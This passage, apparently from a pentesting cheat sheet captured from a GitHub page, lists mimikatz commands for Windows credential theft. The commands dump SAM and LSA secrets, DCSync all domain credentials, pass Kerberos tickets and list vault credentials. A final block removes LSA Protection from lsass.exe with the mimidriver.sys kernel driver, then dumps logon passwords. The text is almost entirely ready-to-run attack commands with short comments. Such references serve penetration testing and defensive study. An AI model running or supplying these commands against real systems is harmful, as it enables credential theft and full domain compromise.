 ```
#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```

#### **What if mimikatz fails to dump credentials because of LSA Protection controls ? \\**

* LSA as a Protected Process (Kernel Land Bypass)

```
#Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa

#Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
#Now lets import the mimidriver.sys to the system
mimikatz # !+

#Now lets remove the protection flags from lsass.exe process
mimikatz # !processprotect /process:lsass.exe /remove

#Finally run the logonpasswords function to dump lsass
mimikatz # sekurlsa::logonpasswords
```
